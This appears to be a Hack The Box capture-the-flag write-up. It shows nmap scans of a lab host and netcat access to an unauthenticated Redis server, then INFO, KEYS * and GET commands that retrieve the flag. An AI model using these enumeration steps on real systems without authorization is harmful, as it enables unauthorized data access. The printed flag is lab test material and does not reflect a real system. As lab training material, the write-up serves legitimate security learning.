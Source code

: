 With the given IP address, we can start by scanning the machine to see which ports are open and which services are running.

```bash
user in ~ λ nmap -sV 10.129.54.67                        
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-31 20:19 -03
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 3.25 seconds
user in ~ λ nmap -Pn 10.129.54.67
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-31 20:19 -03
Nmap scan report for 10.129.54.67 (10.129.54.67)
Host is up (0.20s latency).
All 1000 scanned ports on 10.129.54.67 (10.129.54.67) are closed

Nmap done: 1 IP address (1 host up) scanned in 13.83 seconds
```

It seems that the machine is blocking ping requests, so i'm going to cheat and scan the redis port directly since the machine has a tag of redis.

```bash
user in ~ λ nmap -p 6379 10.129.54.67   
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-31 00:22 -03
Nmap scan report for 10.129.54.67 (10.129.54.67)
Host is up (0.20s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.42 seconds
user in ~ λ nmap -p 6379 10.129.54.67 --script redis-info
Starting Nmap 7.80 ( https://nmap.org ) at 2024-01-31 00:23 -03
Nmap scan report for 10.129.54.67 (10.129.54.67)
Host is up (0.20s latency).

PORT     STATE SERVICE
6379/tcp open  redis
| redis-info: 
|   Version: 5.0.7
|   Operating System: Linux 5.4.0-77-generic x86_64
|   Architecture: 64 bits
|   Process ID: 751
|   Used CPU (sys): 0.544089
|   Used CPU (user): 0.480078
|   Connected clients: 1
|   Connected slaves: 0
|   Used memory: 839.48K
|   Role: master
|   Bind addresses: 
|     0.0.0.0
|     ::1
|   Client connections: 
|_    10.10.14.39

Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
```

We can see that the machine is running a redis server, with this information we can try to connect to the server and see if we can get any information from it.

Here is a explanation of how to do it:

https://book.hacktricks.xyz/network-services-pentesting/6379-pentesting-redis

```bash
nc -vn <target> 6379
```

```bash
Connection to <target> 6379 port [tcp/*] succeeded!
```

Now inside we can try to get some information from the server.

```bash
INFO
```

OUTPUT:
```
# Stats
total_connections_received:5
total_commands_processed:4
instantaneous_ops_per_sec:0
total_net_input_bytes:253
total_net_output_bytes:20
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:89c27ee8de877b97f8ff79fbfabdb061782d683d
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.036026
used_cpu_user:0.020586
used_cpu_sys_children:0.000000
used_cpu_user_children:0.000000

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```

We can see that the server has 4 keys, we can try to get the keys and see if we can get any information from them.

```bash
KEYS *
```

OUTPUT:
```
*4
$4
flag
$4
stor
$4
numb
$4
temp
```

There we can see the keys, we should try to obtain the value from the flag key.

```bash
GET flag
```

```
$32
03e1d2b376c37ab3f5319922053953eb
```

And there we have the flag.

https://www.hackthebox.com/achievement/machine/834305/472